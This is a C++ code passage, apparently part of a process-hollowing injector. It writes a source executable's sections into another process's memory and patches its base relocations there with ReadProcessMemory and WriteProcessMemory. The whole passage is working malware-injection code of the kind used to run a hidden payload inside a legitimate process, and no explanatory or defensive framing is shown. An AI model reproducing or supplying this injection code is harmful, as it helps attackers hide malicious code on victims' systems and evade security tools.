```cpp
    PIMAGE_SECTION_HEADER sourceImageSection = (PIMAGE_SECTION_HEADER)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS32));
    PIMAGE_SECTION_HEADER sourceImageSectionOld = sourceImageSection;
    int err = GetLastError();

    // copy source image sections to destination
    for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
    {
        PVOID destinationSectionLocation = (PVOID)((DWORD)destImageBase + sourceImageSection->VirtualAddress);
        PVOID sourceSectionLocation = (PVOID)((DWORD)sourceFileBytesBuffer + sourceImageSection->PointerToRawData);
        WriteProcessMemory(destProcess, destinationSectionLocation, sourceSectionLocation, sourceImageSection->SizeOfRawData, NULL);
        sourceImageSection++;
    }

    // get address of the relocation table
    IMAGE_DATA_DIRECTORY relocationTable = sourceImageNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];

    // patch the binary with relocations
    sourceImageSection = sourceImageSectionOld;
    for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
    {
        BYTE* relocSectionName = (BYTE*)".reloc";
        if (memcmp(sourceImageSection->Name, relocSectionName, 5) != 0) 
        {
            sourceImageSection++;
            continue;
        }

        DWORD sourceRelocationTableRaw = sourceImageSection->PointerToRawData;
        DWORD relocationOffset = 0;

        while (relocationOffset < relocationTable.Size) {
            PBASE_RELOCATION_BLOCK relocationBlock = (PBASE_RELOCATION_BLOCK)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);
            relocationOffset += sizeof(BASE_RELOCATION_BLOCK);
            DWORD relocationEntryCount = (relocationBlock->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
            PBASE_RELOCATION_ENTRY relocationEntries = (PBASE_RELOCATION_ENTRY)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);

            for (DWORD y = 0; y < relocationEntryCount; y++)
            {
                relocationOffset += sizeof(BASE_RELOCATION_ENTRY);

                if (relocationEntries[y].Type == 0)
                {
                    continue;
                }

                DWORD patchAddress = relocationBlock->PageAddress + relocationEntries[y].Offset;
                DWORD patchedBuffer = 0;
                ReadProcessMemory(destProcess,(LPCVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), &bytesRead);
                patchedBuffer += deltaImageBase;

                WriteProcessMemory(destProcess,    (PVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), fileBytesRead);
                int a = GetLastError();
            }
```